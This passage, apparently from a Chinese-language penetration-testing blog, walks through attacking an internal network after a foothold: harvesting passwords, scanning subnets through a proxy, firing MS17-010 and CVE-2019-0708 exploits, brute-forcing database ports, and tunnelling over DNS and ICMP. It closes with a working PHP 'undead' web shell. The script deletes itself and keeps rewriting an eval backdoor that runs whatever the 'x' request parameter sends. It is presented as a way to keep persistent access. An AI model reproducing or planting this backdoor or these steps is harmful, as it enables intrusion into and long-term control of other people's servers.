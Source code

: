 


对于Linux主机，我们可以查看开放的端口号，开放的服务，与其建立连接的内网主机。查看目录，查找网站数据库连接密码。总之，就是尽可能的多查找一些账号密码，这对于内网的账号爆破非常有用。



在搭建了隧道可以通内网后，我们首先就需要对内网进行资产发现了。但是对于内网存活网段的判断是一个大问题。内网很有可能同时存在 10.0.0.0/8、172.16.0.0/16、192.168.0.0/24 网段。这就需要我们用扫描器对其进行探测了。通过代理进行内网扫描不建议使用nmap。如果是在本地主机通过代理扫描，可以图形化界面的话，可以使用 RouterScan 、御剑高速TCP全端口扫描器、IIS\_Scanner。但是注意线程调低一点，不然代理很容易崩了。如果使用命令行扫描器的话，可以使用S扫描器。在扫描了内网资产和端口开放情况后，对于445端口，就可以打一波MS17\_010。但是注意通过代理打445，和之前的是不一样的。传送门——> 内网渗透之MS17-010 。对于3389端口，可以打一波CVE-2019-0708，传送门——> CVE-2019-0708 远程桌面漏洞复现 。对于1433/3306/6379等端口，可以尝试爆破，利用之前收集到的账号密码成功率更高哦。



关于内网渗透(域环境和非域环境)：[内网渗透](https://blog.csdn.net/qq_36119192/article/details/90707329 "内网渗透")



内网的横向渗透MSF比较好用：



*   [后渗透阶段之基于MSF的路由转发](https://blog.csdn.net/qq_36119192/article/details/92616675 "后渗透阶段之基于MSF的路由转发")

*   [后渗透阶段之基于MSF的内网主机探测](https://blog.csdn.net/qq_36119192/article/details/92556219 "后渗透阶段之基于MSF的内网主机探测")



内网渗透的ICMP和DNS隧道搭建：



*   [利用DNS进行命令控制和搭建隧道](https://blog.csdn.net/qq_36119192/article/details/92695913 "利用DNS进行命令控制和搭建隧道")

*   [利用ICMP进行命令控制和隧道传输](https://blog.csdn.net/qq_36119192/article/details/100036500 "利用ICMP进行命令控制和隧道传输")



相关文章：[内网渗透测试之域渗透详解！](https://www.freebuf.com/company-information/172630.html "内网渗透测试之域渗透详解！")



                  [内网渗透中mimikatz的使用](https://blog.csdn.net/pyphrb/article/details/52051321 "内网渗透中mimikatz的使用")



### 权限维持



在拿到目标主机的权限后，很有可能当时我们并不能获取到想要的东西，需要进行长期的潜伏，特别是在内网渗透中，需要进行长期的信息收集。这时，权限维持就很重要了。我们需要维持住获得的现有权限。



**Web后门**



1：隐藏后门文件(将文件设置为隐藏)



2：不死马，该脚本每5秒向服务器创建test.php，并写入一句话免杀木马。结合attrib命令隐藏文件更好地建立后门。



```
<?php      
    set_time_limit(0);//程序执行时间      
    ignore_user_abort(1);//关掉终端后脚本仍然运行      
    unlink(__FILE__);//文件完整名      
    while(1){      
        file_put_contents('test.php','<?php $a=array($_REQUEST["x"]=>"3");      
        $b=array_keys($a)[0];      
        eval($b);?>');      
        sleep(5);      1
    }      1
?>
```
